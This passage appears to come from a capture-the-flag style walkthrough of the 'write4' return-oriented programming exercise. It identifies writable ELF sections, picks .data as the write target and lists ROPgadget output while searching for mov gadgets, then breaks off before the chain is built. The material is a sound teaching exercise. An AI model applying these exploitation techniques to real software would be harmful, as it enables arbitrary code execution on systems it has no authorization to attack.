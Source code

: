 ```text
0x00001876 0x103 0x00000000 0x103 0x0   ---- .shstrtab          STRTAB      
```

We're looking for sections that have read and write permissions, so that narrows it down to these few:

```text
perm name               type       flags         
----------------------------------------------
-rw- .init_array        INIT_ARRAY write,alloc
-rw- .fini_array        FINI_ARRAY write,alloc
-rw- .dynamic           DYNAMIC    write,alloc
-rw- .got               PROGBITS   write,alloc
-rw- .got.plt           PROGBITS   write,alloc
-rw- .data              PROGBITS   write,alloc
-rw- .bss               NOBITS     write,alloc
```

We could write to any of these sections. `.bss` is out, as it takes up no space. `.init` and `.fini` arrays are for calling constructors and destructors, and I'd rather not trifle with them. `.dynamic` is for some ELF dynamic linker wizardry, and I'd also rather not touch it. That just leaves the GOT, its PLT section, and `.data`. We could write to the GOT (_not_ the PLT section), but I'm choosing to write to `.data` this time.

So, we know that ROP-ing is basically stack smashing to achieve arbitrary code execution. This means with a well-picked gadget, we can write something to memory. This is usually done with a gadget containing a `mov` instruction (duh). We can run `ROPgadget` to search for such a gadget. We don't really need to specify any registers, so we'll do a broad search with just `mov` for now.

```text
$ ROPgadget --binary ./write4 | grep "mov"

0x00000000004005fc : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x00000000004005fd : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x00000000004005fe : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x00000000004005ff : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040061a : in eax, 0xbf ; mov ah, 6 ; add al, bpl ; jmp 0x400621
0x0000000000400579 : je 0x400588 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005bb : je 0x4005c8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040061c : mov ah, 6 ; add al, bpl ; jmp 0x400621
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400629 : mov dword ptr [rsi], edi ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
0x000000000040057b : pop rbp ; mov edi, 0x601038 ; jmp rax
0x0000000000400600 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
```

Very quickly we can zero on in this gadget:
